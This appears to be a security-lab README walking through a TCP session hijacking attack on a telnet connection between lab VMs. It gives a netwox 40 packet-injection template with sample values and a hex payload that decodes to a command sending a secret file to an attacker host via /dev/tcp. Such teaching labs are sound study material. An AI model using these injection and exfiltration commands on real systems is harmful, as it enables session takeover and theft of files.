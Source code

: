 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command. In particular, the attacker wants to see the content of a secret file (stored on the server). At the end of this lab, if the attack is successful, the content of this secret file will be displayed in the attacker's terminal window.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network.

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client creates a secret file on the server.

![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-capture.png "Lab tcp hijack capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")
![alt text](lab-tcp-hijack-capture3.png "Lab tcp hijack latest tcp capture - part 3")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp session hijacking attack. now, the attacker, mimicking the **client**, needs to use the *netwox 40* command to inject a telnet command. The command should be in this format: # sudo netwox 40 --ip4-src *source_ip* --ip4-dst *destination_ip* --tcp-src *source_port* --tcp-dst *destination_port* --tcp-seqnum *sequence_number* --ip4-ttl *ttl_value* --tcp-window *window_size* --tcp-ack --tcp-acknum *acknowledgment_number* --tcp-data "putyourdatahere,in hex format". Remember to replace these italic texts with information captured in wireshark. To run the command, the attacker opens a terminal window, types the *netwox 40* command, and press enter.

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d".

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:

![alt text](lab-tcp-hijack-command-to-hex.png "Lab tcp hijack - the tcp data")

Thus in this example, the netwox 40 command we are going to type is:
![alt text](lab-tcp-hijack-command.png "Lab tcp hijack - the netwox command")

**Explanation 2**: why the telnet command we want to inject is "cat /home/seed/secret > /dev/tcp/attacker_ip/9090". Because "cat /home/seed/secret" shows the content of the secret file, but this command will only display the content in the victim client's terminal window, not in the attacker's terminal window. This "cat /home/seed/secret > /dev/tcp/attacker_ip/9090" will redirect the output of the cat command into a tcp port 9090 at the attacker's ip address. Thus we come to our next step,

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.

![alt text](lab-tcp-hijack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
